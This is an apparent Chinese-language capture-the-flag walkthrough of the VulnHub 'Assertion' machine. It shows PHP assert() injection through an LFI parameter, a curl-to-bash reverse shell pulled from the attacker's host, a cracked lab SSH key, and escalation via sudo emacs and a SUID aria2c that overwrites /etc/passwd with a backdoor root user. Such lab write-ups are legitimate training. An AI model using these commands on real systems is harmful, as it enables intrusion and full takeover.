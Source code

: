 # Assertion: 1.0.1

2024-5-25 https://www.vulnhub.com/entry/assertion-1,495/

difficulty: Intermediate

## IP

192.168.10.187

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6eceaacc02dea5a3585dda2bef5407f9 (RSA)
|   256 9d3fdf167ae15958844ae3298f44878d (ECDSA)
|_  256 87b56ff82181d33b43d04081c0e36989 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Assertion
```

80 web 首页是一个网站页面，底部显示了是 Colorlib CMS。使用 gobuster 看看有什么信息：

```
http://192.168.10.187/contact.php          (Status: 200) [Size: 11556]
http://192.168.10.187/about.php            (Status: 200) [Size: 20735]
http://192.168.10.187/pages                (Status: 301) [Size: 316] [--> http://192.168.10.187/pages/]
http://192.168.10.187/gallery.php          (Status: 200) [Size: 17070]
http://192.168.10.187/css                  (Status: 301) [Size: 314] [--> http://192.168.10.187/css/]
http://192.168.10.187/index.php            (Status: 200) [Size: 36592]
http://192.168.10.187/schedule.php         (Status: 200) [Size: 23805]
http://192.168.10.187/js                   (Status: 301) [Size: 313] [--> http://192.168.10.187/js/]
http://192.168.10.187/blog.php             (Status: 200) [Size: 15274]
http://192.168.10.187/img                  (Status: 301) [Size: 314] [--> http://192.168.10.187/img/]
http://192.168.10.187/fonts                (Status: 301) [Size: 316] [--> http://192.168.10.187/fonts/]
```

没有发下什么隐藏的提示目录或者是登陆目录。

在首页最上方的菜单中，发现了线索 http://192.168.10.187/index.php?page=about ，这里可能存在 LFI，访问 /etc/passwd 看看：

```
http://192.168.10.187/index.php?page=../../../../../../../etc/passwd
```

显示 Not so easy brother! 被嘲笑了。

经过测试，目标系统应该是对..做了检测，并且在 page 的值前加了 page/,值后加了.php,可能是这样构造的：`$file = "pages/". $page. ".php";`,然后在对 file 变量判断是否存在..特殊字符。

可能存在字符串的拼接，与 SQL 注入绕过引号进行必合一样。查找了 PHP 的 LFI 资料，可能使用 strpos 函数进行判断，尝试使用单引号进行绕过：

```
http://192.168.10.187/index.php?page=about%27.phpinfo().%27about
```

发现显示了 phpinfo 页面。

可以带入命令，得到反弹的 shell，kali 上监听 8888 端口：

```
curl "http://192.168.10.187/index.php?page=about%27.system('curl%20http://192.168.10.3/10.3/8888.sh|bash').%27about"

www-data@assertion:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

先验证下前面的判断，看看源码：

```
www-data@assertion:/var/www/html$ cat index.php

<?php
if (isset($_GET['page'])) {
  $page = $_GET['page'];
  $file = "pages/" . $page . ".php";

  // Saving ourselves from any kind of hackings and all
  assert("strpos('$file', '..') === false") or die("Not so easy brother!");
  $val = "pages/". $page;

  if(!file_exists($file)){
    die ("File does not exist");
  }
} else {
  $file = "index.php";
}
?>
```

进行系统枚举，/home 目录下有 2 个用户：fnx 和 soz，www-data 没有权限进入这 2 个用户目录。

/var/www/html 中有一个隐藏目录 .todeletelater ，里面有一个 id_rsa:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,A6E4A31EC68B52BE19B436FB9FE21BD8

2aosCPETte7rK333hu1007Fz64JLXLa+iX1IzFZGvGDiF5ykwlnQGg/PhpUqClGI
ySe/bSp+XQdD0iddR7m05PKgFpxBMR0bu2LhcUFbB9K5HCObIxQ1lHt5l4cHOiOl
ftJMDH6nMPiHJdmH0IScbTCrGHJo/1gRKZc3ZVogrhj583fQNo5cjTQdrJ7RTfE7
UwY+u9Gxvfe6yenwTUMbgG5qZX1PPWceUKuNdXoHcgHpHUa6xdGl8Ln0B4Bz8euZ
gxFkzmojCP59ZvcVIpGB+jZtgcFhHmrcKjiZjZ+FzzUZf6TZu5/Uz/b+wMNrBLVQ
ogFCEF/1aGWbmsj0j+wzBO/N4IKwHqACoXXCw059Hxre/3ZvSC9UVcj6VVVDqTg1
BFnXM28/DPDiGAG3mcoUmqwXOr3HfjWKKKmJD3huqk6xrJnh5lCS8+Xh0SDS8QGN
7z3vK62MASzM/uEbEdqsolm1hzcJv905ZC25D1RNhQGWubJA10a79D8RTEDev/c/
d2/kAIl4/yUSOrKopF8fIy6Tek2mmfHFfd3G/3vpsiY3OHesmqZXG68hgqjvTPQo
7TqODcwkrb5UgI+PyqMiPyUCrqpC+TX0yTMYaNUeFEmIhVq1ZGMs0SLbCX58uT3I
AYi8uaDkCg3ngCjO/JqVO2fvIuLkW6VhT6phnkAyXVKnRpVua/eZSr3ksG9pMI6P
Cj1jQC29+HLjrYjGAv7teiUgJx2OjNudEpEpSQeQRF5qqrWBDryR+H1002+B5Qmw
av5gM+uSWfrDmt2UMw/NylOHLGNfjr7BCksob3vvuuvkKBouJqDpSfdYFN/jMiTq
Yfl8BgOH7g/EMHRu80KBOw+2Z2xRDdN4D0mLQ0btLD0AiJN1yBbpTQCl0h3MKQbn
BLglry94vX8t7FvIiL37pMO1GfnPRdeuTDGiSohVaaqluR4mj7L7lEVvIAhy2jYt
aicgrua5YAud/+V5nw+0rCI7in3O6gYpd+9heE+rj301YrArQIlwpRsjioT5pcrv
Cjtio3PIf/U+KsN4mT0sFDR4Pb68i3CLBQzK3CpSbNG3SGq71K1CDLo90tLmgzNW
JJu9lODEpl6vC2b6KmXcrDplz9IuSVfSXRG3t7BR/Vs/vK1Y2LRelK6fICRTgJSF
iOI4YhRqtAOhgaYa2tpvrUjEL7Wi4U03A2hmT7BIuJCinog6fdja4wrfln77fs2G
IW9cxXgRZ0onuHikbB74lXBdhuLQ/RJqpdzdZScI2ReaP3VQoEIkj0Cp853bL6re
SvNCFnOqlUmWUV10VI/BuSj9yWW2+7Su1z1WQVXlCNmo4uLZ1gfXtC8pWjVe5JKw
hxCizOFZrDvcLhoNe1c3LMod1L3B2AoLnidp4hLb5pCRMUmqZOxiYNVDzAiptXzV
w/9P0w5M0eixFSECRE6jQ140eiHLxo6//yCwGckA0mDIdVDWRSPUW3r3NYW1iGaW
RLI+MyNIw9yzlH3RClyhp8X97kxEjLytc9CGh6/bvMRIB8kHCbpvsxCX8g1gnrUB
JBvgNXu2ma2RE41XyKfeigv49bEnA+bgi0laY1O3ujAqaP3S1yvBf0NOJICxy07h
-----END RSA PRIVATE KEY-----
```

应该是 fnx 或 soz 的，保存到 kali 上，尝试登陆。提示私钥有密钥，使用 john + rockyou 进行解密，得到私钥的密码:sozefasalshwamra

再次使用 ssh 尝试登陆这 2 个用户，结果 soz 能成功登陆，继续开始进行系统枚举吧，sudo -l 显示了有意思的信息：

```
(fnx) NOPASSWD: /usr/bin/emacs
```

通过 emacs 能提权到 fnx 用户：

```
cd /tmp
sudo -u fnx emacs -Q -nw --eval '(term "/bin/bash")'
```

在其他目录执行，可能提示权限不足，先切换到/tmp，全局可写，这时就能看到 bash 的图标：

```
$ id
uid=1001(fnx) gid=1001(fnx) groups=1001(fnx)

fnx@assertion:/home/fnx$ ls -al
total 24
drwxr-x--- 3 fnx  fnx  4096 Jan 16  2020 .
drwxr-xr-x 4 fnx  soz  4096 Jun 27  2020 ..
lrwxrwxrwx 1 root root    9 Jan 16  2020 .bash_history -> /dev/null
-rwsr-xr-x 1 root root 7424 Jan 16  2020 donttouchme
drwxrwxr-x 3 fnx  fnx  4096 Jan 16  2020 .local
-r-------- 1 fnx  fnx    33 Jan 16  2020 user.txt
```

得到了 user flag：

```
fnx@assertion:/home/fnx$ cat user.txt
fa7c75358229ac0cfb376286476efeef
```

查找 suid 程序，发现 /usr/bin/aria2c ，可以提权到 root。

读取目标机器的/etc/passwd，保存在 kali 上，并且在最后一行添加：

```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

new:123,在 kali 上构造 http 服务。

在目标机器上执行，下载 passwd 文件，覆盖原有的/etc/passwd：

```
cd /etc
URL=http://192.168.10.3/passwd
LFILE=passwd
aria2c -o passwd "http://192.168.10.3/passwd" --allow-overwrite=true
```

执行后，就会覆盖原有的/etc/passwd，然后就可以用新添加的超级用户 new:123 去进入/root 目录。

得到最终的 root 权限：

```
root@assertion:~# cat root.txt
8efabdae07730bdcb14d83e37a2e7398
```
